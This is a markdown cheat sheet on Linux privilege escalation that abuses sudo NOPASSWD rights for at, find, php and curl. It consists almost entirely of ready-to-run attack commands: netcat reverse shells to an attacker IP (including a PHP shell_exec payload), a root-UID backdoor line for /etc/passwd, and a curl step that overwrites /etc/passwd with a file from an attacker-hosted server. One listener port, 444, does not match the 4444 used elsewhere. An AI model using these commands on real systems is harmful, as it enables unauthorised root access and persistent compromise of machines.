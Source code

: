 # Linux Privilege Escalation

## 1. /usr/bin/at

```
(root) NOPASSWD: /usr/bin/at
```
  **Attacker's machine** 
  
  - start listner on port 4444 using netcat ```nc -nvlp 444```
  
  **Victim's machine** 
  
  - create a bash script which contain this command ```nc 192.168.0.106 4444 -e /bin/bash``` and 
  - run ```sudo at -f exp.sh now + 1 minutes```
  
## 2. /usr/bin/find

```
(root) NOPASSWD: /usr/bin/find
```
  **Victim's machine**
  
  - sudo find /etc/passwd -type f -name "passwd" -exec nano "{}" \;
  - add this line at the find of the file ```pwn:$1$pwn$AxNbnbaujRUXRur/DewJ8/:0:0:/root/root:/bin/bash``` and save it
  - change user to **pwn** using password **pwn** ```su pwn``` 
  
## 3. /usr/bin/php

```
root) NOPASSWD: /usr/bin/php
```
  **Attacker's machine**
  
  - start listner on port 1234 using netcat ```nc -nvlp 1234```
  
  **Victim's machine**
  
  - run this command and replace <IP> with your IP ```echo "<?php shell_exec('nc <IP> 1234 -e /bin/sh');?>" > shell.php```
  - sudo php shell.php

## 4. /usr/bin/curl

```
root) NOPASSWD: /usr/bin/curl
```

  **Attacker's machine**
  
  - Copy /etc/passwd from victim's machine and save it on attacker's machine as pass.txt
  - add this line at this end of the file ```pwn:$1$pwn$AxNbnbaujRUXRur/DewJ8/:0:0:/root/root:/bin/bash```
  - start http server using python ```python -m SimpleHTTPServer 8080``` and note the IP
  
  **Victim's machine**
  
  - run this command ( replace <IP> with your IP) ```sudo curl http://<IP>:8080/pass.txt -o /etc/passwd```
  - change user to **pwn** using password **pwn** ```su pwn```
  
